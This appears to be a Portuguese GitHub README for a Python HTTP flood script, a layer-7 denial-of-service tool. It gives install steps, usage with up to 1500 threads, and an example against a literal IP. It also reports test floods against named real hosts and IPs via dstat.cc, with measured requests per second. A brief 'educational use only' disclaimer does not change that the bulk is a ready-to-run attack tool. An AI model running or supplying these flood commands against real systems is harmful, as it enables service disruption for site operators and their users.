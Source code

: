 # Python HTTP Flood

Este é um simples script de HTTP Flood desenvolvido em Python.

## Instalação
```sh
git clone https://github.com/e43b/Python-HTTP-Flood/
cd Python-HTTP-Flood
pip install -r requirements.txt  
```

## Uso 
```sh
python main.py <alvo> <GET/POST> <threads>
Exemplo: python main.py http://51.159.30.249 POST 1500
```

**Nota: Este script deve ser usado apenas para fins educacionais. Não é recomendado ou ético usar este script em sites sem permissão.**

## Configuração de Testes
Os testes foram realizados em diferentes sites para avaliar o desempenho na camada 7 (L7 Non Protected e L7 Non Protected SSL).

### Testes na Prática com Método POST
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
Comando: `python main.py http://142.171.195.145/HIT POST 500`
- Requisições por segundo:
  - Máxima: 1500
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
Comando: `python main.py https://nodec.mediathektv.com POST 700`
- Requisições por segundo:
  - Máxima: 2800
  - Média: 1500

### Testes na Prática com Método GET
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
Comando: `python main.py http://142.171.195.145/HIT GET 500`
- Requisições por segundo:
  - Máxima: 3000
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
Comando: `python main.py https://nodec.mediathektv.com GET 700`
- Requisições por segundo:
  - Máxima: 2200
  - Média: 1500
